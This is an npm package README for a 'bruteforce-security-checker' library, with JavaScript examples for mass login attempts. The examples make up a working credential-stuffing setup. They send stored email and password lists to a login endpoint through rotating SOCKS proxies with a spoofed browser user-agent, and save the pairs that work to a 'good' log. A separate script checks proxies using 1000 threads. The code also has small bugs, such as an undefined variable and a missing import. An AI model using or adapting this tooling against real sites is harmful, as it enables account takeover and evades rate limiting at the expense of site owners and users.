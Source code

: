 # bruteforce-security-checker

By this module you can:
1. Test site for bruteforce security by implement HTTP/WS login requests
2. Test site accessibility on mass user signups.


## Table of contents

- [Installation](#installation)
- [Documentation](#documentation)
- [Bruteforce](#bruteforce)
- [Service](#service)
- [Examples](#examples)
---

## Installation
```npm i @k7eon/bruteforce-security-checker --save```

## Documentation
For methods documentation visit [Doxdox generated docs](https://doxdox.org/k7eon/bruteforce-security-checker)

---------------------------------
# BruteForce
include:
```js
const b = require('@k7eon/bruteforce-security-checker').bruteforce;
// or
const {bruteforce} = require('@k7eon/bruteforce-security-checker');
```

---------------------------------
# Service class
Service is a class with some usefully methods for implement HTTP request

include:
```js
const Service = require('@k7eon/bruteforce-security-checker').Service;
// or
const {Service} = require('@k7eon/bruteforce-security-checker');
```

---------------------------------
## Examples


---------------------------------
#### Example of *Service* usage
```js
  // MySiteClass.js
  class MySiteClass extends Service {
    
    /**
    * if login success return cookies or null or throw HTTP layer exception;
    * @param login
    * @param password
    * @param agent      - socks proxy agent
    * @return {Promise<*>}
    */
    async login(login, password, agent=null) {
      
      let config = {
        method: 'POST',
        url: 'http://mysite.com/login',
        headers: {
          'accept':           'application/json, text/javascript, */*; q=0.01',
          'accept-language':  'en-US,en;q=0.5',
          'content-type':     'application/x-www-form-urlencoded; charset=UTF-8',
          'origin':           'http://mysite.com',
          'referer':          'http://mysite.com/login',
          'user-agent':       'Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 YaBrowser/18.1.1.835 Yowser/2.5 Safari/537.36',
          'x-requested-with': 'XMLHttpRequest',
        },
        form: {
          'username': login,
          'password': password,
        },
        json: true,
      } // like 'request/request' lib
      let {response, body} = this.r(config, agent);
      
      if (!body.success) return null;
      let logCookies = this.getSetCookies(response);
      return logCookies;
    }
  }
  module.exports = new MySiteClass();
```
More about request configs [there](https://github.com/request/request)


---------------------------------
#### Example of *Bruteforce* with *MySiteClass*
```js
// login.js
const fs     = require('fs');
const b      = require('@k7eon/bruteforce-security-checker').bruteforce;
const mySite = require('./MySiteClass');
const FILE = {
  proxies:      'files/proxy_valid.txt',
  registered:   'files/registered.log',
  bad:          'files/bad.log',
  good:         'files/good.log',
  errors:       'files/errors_login.log',
};

b.createFilesIfNotExists(FILE);
b.loadRegisteredAccounts(FILE.registered);
b.removeAccountsFrom('email', FILE.bad);
b.loadProxyAgents(FILE.proxies);

b.setMetrics({'good':0, 'bad':0})
b.startShowingMetrics(10000);

b.start({
  THREADS:      1,
  whatToQueue:  'accounts',
  useProxy:     true,
  handlerFunc: async (task, agent) => {
    let account = task;
    console.log('account', account);
    let {email, password} = account;

    try {
      let cookie = await mySite.login(email, password, agent);

      if (!cookie) {
        console.log('bad');
        fs.appendFileSync(FILE.bad, email+'\n');
        b.metrics.bad++;
        return {agent};
      }
      if (cookie) {
        console.log('good');
        fs.appendFileSync(FILE.good, `${[email, password].join(':')]}\n`);
        b.metrics.good++;
        return {agent};
      }
    } catch (e) {
      console.log('error', e);
      brute.queue.push(account);  // recheck account
      fs.appendFileSync(FILE.errors, `${JSON.stringify({account, proxy: agent.options.host})}\n${e.stack}\n\n`);
      return {agent};
    }
  },
  drainCallback: () => {
    console.log('All accounts are checked');
  }
});
```
- Run ```node login.js```


---------------------------------
#### Bruteforce proxy checker example
```js
// proxy_checker.js
const request = require('request');
const rp = require('request-promise');
const brute = require('@k7eon/bruteforce-security-checker').bruteforce;
const FILE = {
  proxies:        'proxy.txt',
  valid_proxies:  'valid_proxies.txt',
};
// create empty files in they are not exists. Be careful, 
// create directory 'files' if not exists
brute.createFilesIfNotExists(FILE);

// For interval showing statistic
brute.setMetrics({'active': 0});
brute.startShowingMetrics(10000);

// Load proxies and create agents
brute.loadProxyAgents(FILE.proxies);
brute.start({
  THREADS: 1000,
  whatToQueue: 'agents',
  handlerFunc: async (task, t) => {
    let agent = task;

    try {
      await rp({
        url: 'https://api.ipify.org?format=json',
        method: 'GET',
        timeout: 60000,
        agent: agent,
      });
      let host = agent.options.host;
      fs.appendFileSync(FILE.valid_proxies, host+'\n');
      brute.metrics.active++;  // increment metric
    } catch (e) {
      // there all errors if HTTP layer. 
      // This proxy are not needed.
    }
    return {task, agent: t};
  },
  drainCallback: () => {
    console.log('drainCallback');
  }
});
```
- Put some proxies in **files/proxy.txt**
- Run ```node proxy_checker.js```
